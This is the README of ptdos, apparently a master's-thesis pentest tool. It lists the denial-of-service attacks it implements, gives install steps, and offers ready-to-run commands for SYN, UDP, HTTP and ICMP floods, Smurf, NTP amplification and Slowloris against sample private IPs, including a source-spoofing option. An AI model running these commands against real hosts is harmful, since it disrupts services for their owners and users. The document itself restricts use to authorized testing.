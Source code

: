 [![Python 3.10](https://img.shields.io/badge/python-3.10-green.svg)](https://www.python.org/downloads/release/python-3100/)
[![Linux](https://img.shields.io/badge/KaliLinux-2022.1-blue.svg)](https://www.kali.org/blog/kali-linux-2022-1-release/)
[![Linux](https://img.shields.io/badge/UbuntuLinux-22.04-orange.svg)](https://discourse.ubuntu.com/t/jammy-jellyfish-release-notes/24668)
[![OSX](https://img.shields.io/badge/macOS-12.3-purple.svg)](https://developer.apple.com/documentation/macos-release-notes/macos-12_3-release-notes)

![penterepTools](https://www.penterep.com/external/penterepToolsLogo.png)

# ptdos
Application ptdos is used for creation of Denial of Service attacks. It is part of complex system Penterep Tools.

## Implemented Denial of Service attacks
### Flood DoS attacks
* ICMP Flood
* UDP Flood
* SYN Flood
* HTTP GET Flood
* HTTP POST Flood
* HTTP HEAD Flood
### Logical DoS attacks
* Ping of Death
* Slowloris
* R.U.D.Y. - Are You Down Yet?
### Amplification DoS attacks
* Smurf Attack
* NTP Amplification

## ptdos Installation
### Software Requirements
* Python 3.10+
* hping3

### OS Requirements
* Kali Linux 2021.1+
* Ubuntu 22.04+
* macOS 12.3+

### Lib requirements
* ptlibs
* requests
* validators
* impacket
* setuptools

### Installation using pip

```
$ sudo apt install python3-pip
$ sudo pip install ptdos
$ ptdos --help
```

### Cloning source code from GitHub repository
Download ptdos source code, install packages from requirements and run main file ptdos.py

```
$ git clone https://github.com/FilipKam/ptdos
$ cd ptdos
$ sudo pip install -r requirements.txt
$ cd ptdos
$ python3 ptdos.py --help
```

### Install hping3 for SYN Flood
```
$ sudo apt install hping3
```

### Add to PATH
If you cannot invoke the script in your terminal, its probably because it is not in your PATH. Fix it by running commands below.

Add to path for BASH
```bash
echo "export PATH=\"`python3 -m site --user-base`/bin:\$PATH\"" >> ~/.bashrc
source ~/.bashrc
```
Add to path for ZSH
```bash
echo "export PATH=\"`python3 -m site --user-base`/bin:\$PATH\"" >> ~/.zshhrc
source ~/.zshhrc
```

## Getting started using the ptdos 

### Usage examples
**SYN Flood**
```
$ sudo ptdos -a synflood -dst 192.168.0.80 -dp 80 -d 10 -ss
```
**UDP Flood**
```
$ ptdos -a udpflood -dst 192.168.0.80 -dp 80 -dl 128 -d 4 -st 0.001
```
**HTTP GET Flood**
```
$ ptdos -a httpgetflood -d 5 -dst "http://192.168.0.80/test/test" -st 0.001
```
**HTTP POST Flood**
```
$ ptdos -a httppostflood -d 5 -dst "http://ptsv2.com/path/example" -body "{'name':'test','age':20}" -qs "par1=val1&par2=val2" -st 0.001
```
**HTTP HEAD Flood**
```
$ ptdos -a httpheadflood -d 5 -dst "http://192.168.0.80/test/test" -st 0.001
```
**ICMP Flood**
```
$ sudo ptdos -a icmpflood -dst 192.168.0.213 -d 4 --data-length 2048 -st 0.001
```
**Smurf Attack**
```
$ sudo ptdos -a smurf -d 10 -dst 192.168.0.80 -bc 192.168.0.255
```
**Ping of Death**
```
$ sudo ptdos -a pingofdeath -d 5 -dst 192.168.0.80
```
**NTP Amplification**
```
$ sudo ptdos -a ntpampl -dst 192.168.0.80 -d 5
```
**Slowloris**
```
$ ptdos -a slowloris -d 5 -dst "http://192.168.0.80" -dp 80 -sq 10 -st 5
```
**R.U.D.Y. - Are You Dead Yet?**
```
$ ptdos -a rudy -dst "http://192.168.0.80" -dp 80 -d 5 -st 10
```

### Options
Not all options can be used with every attack. Check the help for each attack by running ptdos.py -h.
```
-a      --attack            Attack name
-d      --duration          Specify attack's duration in seconds. Default 10 seconds.
-dst    --destination       Specify destination IP, domain or url
-dp     --dstport           Specify destination port. Default 80.
-dl     --data-length       Include len random bytes as payload. Default 1024 bytes.
-ss     --spoof-source      Spoof source IP address and port with fake values
-bc     --broadcast         Specify broadcast IP address for attack amplification
-sq     --socksquant        Number of concurrent sockets opened
-st     --sleep-time        Sleep time between packets in seconds. Default 0 seconds.
-body   --body              Specify body of the request
-qs     --query-string      Specify query string of the request like "par1=val1&par2=val2"
-j      --json              Make JSON output
-v      --version           Show script version and exit
-h      --help              Show help message and exit
```


### Issues?

* [Do you have an issue? Reach me out on GitHub!](https://github.com/FilipKam/ptdos/issues "GitHub issues")

## Version History
* 0.1 - first public release as master thesis project

## License

Copyright (c) 2022 HACKER Consulting s.r.o.

ptinsearcher is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

ptinsearcher is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License
along with ptinsearcher.  If not, see <https://www.gnu.org/licenses/>.

## Warning

You are only allowed to run the tool against the websites which
you have been given permission to pentest. We do not accept any
responsibility for any damage/harm that this application causes to your
computer, or your network. Penterep is not responsible for any illegal
or malicious use of this code. Be Ethical!

